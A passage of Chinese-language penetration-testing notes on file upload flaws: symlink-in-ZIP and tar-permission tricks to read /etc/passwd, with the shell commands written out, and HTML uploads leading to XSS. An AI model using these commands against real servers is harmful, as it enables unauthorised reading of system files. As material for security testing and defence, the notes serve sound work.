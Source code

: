 

这里是通过绝对路径读取文件，还有可能是相对路径。

参考：https://secops.group/anatomy-of-a-file-upload-attack/

```sh
创建了/etc/passwd 文件的符号链接，并使用以下命令将文件压缩到 ZIP 存档中
sudo ln -s ../../../../../../../../../../etc/passwd name_of_symlink.txt
sudo zip --symlink zip_file.zip  name_of_symlink.txt

上传了包含Symlink的ZIP文件，提取了 Symlink 文件，通过预览文件访问服务器的“passwd”文件的内容
```



### 利用tar权限

Abusing tar permissions

如果应用程序服务端使用 `tar`命令提取解压`.tar`文件、删除符号链接并访问子目录，则可以尝试利用 tar 权限控制绕过符号链接删除过程。

`tar`命令创建`.tar`文件存档时会保留分配给它的 unix 权限。如果设置父目录无人可读（  `chmod 300`），同时子目录具有完整权限（ `chmod 700`），则可以在子目录中包含符号链接，这些符号链接在符号链接删除过程中不会被找到，但由于子目录具有读取权限，因此直接访问时会找到。

案例：[Reading local files by abusing tar permissions in Gitlab Imports (Possibly leading to RCE)](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/55501)

```sh
$ mkdir parent
$ cd parent
$ tar cf a.tar . --mode=300
$ mkdir sub
$ cd sub
$ ln -s /etc/passwd file.txt
$ cd ..
$ tar -rf a.tar sub
```



## 1.4. 允许上传HTML文件

允许上传html或者XML都可以能导致xss，也能导致任意URL跳转，甚至还能导致SSRF（很难利用），因为核心还是js代码可控。

html造成XSS就不多说了，懂得都懂

|              | HTML文件后缀                         |
| ------------ | ------------------------------------ |
| Common       | htm		html	shtml             |
| IIS          | htm		hxt                       |
| Apache httpd | html.de	html.xxx                  |
| 其他/少见    | body	    manifest		appcache |

检查 MIME 类型是否存在可能的 XSS：

